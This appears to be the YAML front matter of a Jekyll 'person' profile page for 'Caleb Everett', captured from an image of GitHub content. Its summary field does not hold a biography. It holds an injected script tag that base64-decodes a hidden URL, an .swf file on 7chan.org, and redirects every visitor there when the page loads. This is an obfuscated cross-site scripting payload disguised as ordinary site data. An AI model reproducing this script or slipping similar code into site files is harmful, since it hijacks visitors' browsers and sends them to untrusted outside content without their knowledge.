 ```yaml
---
layout: person
categories: people
title: Caleb Everett
date: {}
summary: "<script>window.location = atob(\"aHR0cDovLzdjaGFuLm9yZy9mbC9zcmMvaGV5LnN3Zg==\") </script>"
published: true
---
```


